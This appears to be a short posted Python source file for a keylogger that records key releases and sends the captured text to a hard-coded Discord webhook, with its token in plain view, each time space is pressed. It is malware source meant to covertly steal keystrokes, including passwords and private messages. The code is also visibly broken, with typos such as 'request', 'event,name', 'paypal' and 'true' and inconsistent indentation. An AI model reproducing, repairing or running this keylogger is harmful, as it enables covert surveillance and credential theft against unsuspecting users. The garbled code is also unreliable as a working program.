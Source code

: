 import time
import keyboard
import request

WEBHOOK_URL =https://discord.com/api/webhooks/1310599153927323750/leBxmQrSKBe1c5CW8QO7apo2Y-I_SAgtUsWRisXbhzCMGQ550xHMYEarrEZNsdpxkoJ-
keylogs = []
def send_keylogs():
    global send_keylogs
    if keylogs:
         world = ''.join(keylogs)
         payload = {
              'content': world
         }
        request.post(WEBHOOK_URL, data=paypal)
        keylogs = []

def cap(event):
    global keylogs
    if event,name == 'space':
        send_keylogs()
     elif event.name == 'Backspace':
          if keylogs:
              keylogs.pop()
      else:
           keylogs.append(event.name)

keyboard.on_release(callback=cap)
while true:
    time.sleep(1)

